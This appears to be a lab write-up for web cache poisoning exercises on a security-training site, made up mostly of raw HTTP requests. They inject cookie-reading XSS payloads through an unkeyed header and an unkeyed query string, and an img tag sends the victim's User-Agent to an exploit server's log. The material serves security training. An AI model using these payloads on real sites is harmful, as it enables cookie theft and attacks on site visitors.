 <img width="960" alt="image" src="https://user-images.githubusercontent.com/56427824/195282333-70164d66-4201-4b45-8471-0f4bdd9c60df.png">

Without exploit server

```
GET / HTTP/1.1
Host: 0a48000004c844e1c05d17e3009f0040.web-security-academy.net
X-Host: asdasdasd"></script><script>alert(document.cookie)</script>
Cookie: session=pr5OvwBna0H3FV03uvYT9eUKGoAGdTRI
```

With exploit server

```
GET / HTTP/1.1
Host: 0a48000004c844e1c05d17e3009f0040.web-security-academy.net
X-Host: exploit-0a0200db04b04402c0ec177d0155001e.exploit-server.net
```

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: User-Agent
Cache-Control: max-age=30
Age: 4
X-Cache: hit
Connection: close
Content-Length: 5875
```

Vary looks at User-Agent

Need to get victim User-Agent

<img width="942" alt="image" src="https://user-images.githubusercontent.com/56427824/195285757-96927661-c524-4683-8354-208c6691f8a1.png">

```
<img src="https://exploit-0a0200db04b04402c0ec177d0155001e.exploit-server.net/log">
```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.61 Safari/537.36

Final Answer:

```
GET / HTTP/1.1
Host: 0a48000004c844e1c05d17e3009f0040.web-security-academy.net
X-Host: asdasdasd"></script><script>alert(document.cookie)</script>
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.61 Safari/537.36
```

### Web cache poisoning via an unkeyed query string

```
GET /?'></head><script>alert(1)</script> HTTP/1.1
Host: 0a9d00f70391a8d2c00d314300ec0080.web-security-academy.net
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*,text/cachebuster,text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, cachebuster
Cookie: cachebuster=1
Sec-Fetch-Site: none
```